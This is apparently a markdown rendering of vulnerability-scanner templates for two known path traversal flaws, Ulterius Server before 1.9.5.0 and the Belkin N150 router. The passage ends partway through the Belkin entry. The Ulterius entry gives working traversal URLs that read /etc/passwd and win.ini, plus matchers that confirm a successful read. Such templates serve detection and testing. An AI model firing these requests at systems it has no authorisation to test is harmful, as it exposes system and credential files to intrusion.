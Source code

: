 # Ulterius Server \< 1.9.5.0 - Directory Traversal

## Description

- Ulterius Server before 1.9.5.0 allows HTTP server directory traversal via the process function in RemoteTaskServer/WebServer/HttpServer.cs.
- severity - high
- tags - cve2017,ulterius,traversal,edb,cve

## Requests

- Method - GET

### URL

- {{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
- {{BaseURL}}/.../.../.../.../.../.../.../.../.../etc/passwd

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. \[(font|extension|file)s\]
- condition - or
- part - body

---

# Belkin N150 Router 1.00.08/1.00.09 - Path Traversal

## Description

- A path traversal vulnerability in the webproc cgi module on the Belkin N150 F9K1009 v1 router with firmware before 1.00.08 allows remote attackers to read arbitrary files via a full pathname in the getpage parameter.
- severity - high
- tags - cve,cve2014,lfi,router,firmware,traversal

## Requests

- Method - GET

### URL
